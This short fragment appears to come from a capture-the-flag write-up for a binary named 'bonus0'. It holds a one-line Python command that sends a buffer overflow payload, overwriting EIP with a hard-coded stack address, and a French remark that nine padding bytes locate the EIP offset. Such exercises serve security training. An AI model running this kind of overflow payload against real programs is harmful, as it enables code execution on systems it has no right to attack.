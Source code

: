 (python -c "print 'A'*4095 + '\n' + 'A'*9 + '\x2f\xf8\xff\xbf' +'A'*8 " ; cat) | ./bonus0

+ 'A'*9 pour trouver l'offset de l'EIP